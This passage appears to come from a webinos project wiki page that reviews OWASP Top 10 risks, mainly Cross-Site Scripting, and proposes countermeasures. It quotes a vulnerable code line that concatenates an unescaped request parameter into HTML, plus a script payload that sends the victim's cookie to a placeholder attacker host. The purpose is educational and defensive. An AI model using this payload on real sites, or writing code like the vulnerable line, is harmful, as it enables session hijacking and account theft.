 it could be relevant when a webinos device exports some app or functionality

h3. Webinos suggested countermeasure

# secure code best practices should be adopted by webinos developers
# webinos applications should be tested with a defined patterns of improperly formatted input data


h2. A2 â€“ Cross-Site Scripting (XSS)

it occurs whenever an application takes untrusted data and sends them to a web browser without proper validation and/or escaping

h3. example

(String) page*= "<input name=’creditcard’ type=‘TEXTâ€˜ value=’" + request.getParameter("CC") + "‘>";

The attacker modifies the â€˜CCâ€™ parameter in their browser to:
’><script>document.location=‘http://www.attacker.com/cgi-bin/cookie.cgi?foo=’+document.cookie</script>’

### OWASP suggested solutions

1.  to properly escape all untrusted data based on the HTML context (body, attribute, JavaScript, CSS, or URL) that the data will be placed into
2.  positive or â€œwhitelistâ€ input validation, but is not a complete defense as many applications must accept special characters
3.  Consider employing Mozilla’s new Content Security Policy (Firefox 4) to defend against XSS

### Note

Mozilla’s Content Security Policy (from https://developer.mozilla.org/en/Security/CSP/Using_Content_Security_Policy)
is a worth thing to analize, [[MozillaSecPolicy|some examples]] clarify what can provide

### Webinos relevance

It can enable improper cross-application injection and data access. Webinos could try to diminish impact of this

### Webinos suggested countermeasure

1.  secure code best practices should be adopted by webinos developers
2.  webinos applications should be tested with a defined patterns of improperly formatted input data
3.  webinos runtime could support Mozilla’s Content Security Policy

A3 - Broken Authentication and Session Management
-------------------------------------------------
